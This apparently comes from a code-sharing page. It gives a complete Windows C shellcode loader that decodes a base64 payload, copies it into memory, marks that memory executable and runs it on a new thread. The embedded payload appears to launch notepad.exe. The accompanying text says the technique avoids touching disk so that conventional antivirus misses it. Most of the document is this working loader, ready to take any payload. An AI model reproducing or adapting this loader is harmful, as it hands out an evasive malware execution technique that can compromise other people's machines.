 # Base64 Encoded Payload

The C code demonstrates the implementation of executing a base64-encoded payload in memory, typical of a simple shellcode execution technique often used in penetration testing or malware.

Key Components:

1. **Base64 Decoding**: The `DecodeBase64` function uses Windows API `CryptStringToBinaryA` to decode the base64-encoded payload into binary data.
2. **Memory Allocation**: `VirtualAlloc` reserves memory pages with read-write permissions to hold the decoded payload.
3. **Memory Protection**: `VirtualProtect` changes the protection of the allocated memory to allow execution (`PAGE_EXECUTE_READ`).
4. **Thread Execution**: The `CreateThread` function starts a new thread with the entry point as the decoded shellcode, effectively running the shellcode.
5. **Memory Cleanup**: After execution, `VirtualFree` releases the allocated memory to prevent resource leaks.

This technique is commonly known in security as an in-memory code execution, which allows payloads to execute without the need to touch disk, reducing detection by conventional antivirus solutions.

```c
#include <Windows.h>
#include <stdio.h>
#include <wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

// certutul -encode notepad.bin encoded_payload
unsigned char payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/Vbm90ZXBhZC5leGUA";
unsigned int payload_len = sizeof(payload);

int DecodeBase64(const BYTE* src, unsigned int srcLen, char * dst, unsigned int dstLen) {
    DWORD outLen;
    BOOL fRet;

	fRet = CryptStringToBinaryA((LPCSTR)src, srcLen, CRYPT_STRING_BASE64, (BYTE *) dst, &outLen, NULL, NULL);
    if (!fRet) outLen = 0;

    return(outLen);
}

int main(void) {
    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!exec_mem) {
        printf("VirtualAlloc failed: %lu\n", GetLastError());
        return 1;
    }

    DecodeBase64((const BYTE *) payload, payload_len, (char *)exec_mem, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if (!rv) {
        printf("VirtualProtect failed: %lu\n", GetLastError());
        VirtualFree(exec_mem, 0, MEM_RELEASE);
        return 1;
    }

    th = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
    if (!th) {
        printf("CreateThread failed: %lu\n", GetLastError());
        VirtualFree(exec_mem, 0, MEM_RELEASE);
        return 1;
    }

    WaitForSingleObject(th, INFINITE);

    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
